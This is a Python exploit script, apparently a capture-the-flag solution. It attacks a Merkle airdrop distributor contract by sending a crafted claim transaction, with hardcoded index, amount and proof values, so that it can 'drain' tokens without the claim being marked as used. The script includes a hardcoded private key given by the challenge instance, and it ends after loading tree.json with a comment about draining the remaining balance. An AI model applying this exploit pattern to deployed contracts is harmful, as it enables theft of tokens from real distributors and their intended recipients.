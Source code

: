 ```python


# private key the instance give us
private_key = "0x7d386cde8f3eaae38e0cd7b73a552ffc8d27f1420fcabf1d26271de41c60d157"
acct = Account.from_key(private_key)
wallet = acct.address

balance = web3.fromWei(web3.eth.getBalance(wallet), 'ether')
print(f'Wallet : {wallet}')
print(f'Balance (ETH) : {balance}')



distributer_abi = '[{"inputs":[{"internalType":"address","name":"token_","type":"address"},{"internalType":"bytes32","name":"merkleRoot_","type":"bytes32"}],"stateMutability":"nonpayable","type":"constructor"},{"anonymous":false,"inputs":[{"indexed":false,"internalType":"uint256","name":"index","type":"uint256"},{"indexed":false,"internalType":"address","name":"account","type":"address"},{"indexed":false,"internalType":"uint256","name":"amount","type":"uint256"}],"name":"Claimed","type":"event"},{"inputs":[{"internalType":"uint256","name":"index","type":"uint256"},{"internalType":"address","name":"account","type":"address"},{"internalType":"uint96","name":"amount","type":"uint96"},{"internalType":"bytes32[]","name":"merkleProof","type":"bytes32[]"}],"name":"claim","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"uint256","name":"index","type":"uint256"}],"name":"isClaimed","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"merkleRoot","outputs":[{"internalType":"bytes32","name":"","type":"bytes32"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"token","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"view","type":"function"}]'
distributer_instance = web3.eth.contract(address=distributer_address, abi=distributer_abi)



def claim(index, account, amount, merkleProof):
	nonce = web3.eth.getTransactionCount(wallet)
	gasPrice = web3.toWei('4', 'gwei')
	gasLimit = 1000000
	tx = {
    'nonce': nonce,
    'gas': gasLimit,
    'gasPrice': gasPrice,
    'from': wallet
	}
	transaction = distributer_instance.functions.claim(index, account, amount, merkleProof).buildTransaction(tx)
	signed_tx = web3.eth.account.sign_transaction(transaction, private_key)
	tx_hash = web3.eth.sendRawTransaction(signed_tx.rawTransaction)
	transaction_hash = web3.toHex(tx_hash)
	tx_receipt = web3.eth.wait_for_transaction_receipt(transaction_hash)

	print(tx_receipt['status'])
	print(transaction_hash)

# Drain token without letting it set isClaimed() to true
claim(0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442, "0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A", 0x00000f40f0c122ae08d2207b, ["0x8920c10a5317ecff2d0de2150d5d18f01cb53a377f4c29a9656785a22a680d1d","0xc999b0a9763c737361256ccc81801b6f759e725e115e4a10aa07e63d27033fde","0x842f0da95edb7b8dca299f71c33d4e4ecbb37c2301220f6e17eef76c5f386813","0x0e3089bffdef8d325761bd4711d7c59b18553f14d84116aecb9098bba3c0a20c","0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5"])


f = open('public/tree.json', 'r').read()
tree = json.loads(f)

# Drain excat remaining token to not underflow it and excatly drain it to 0
```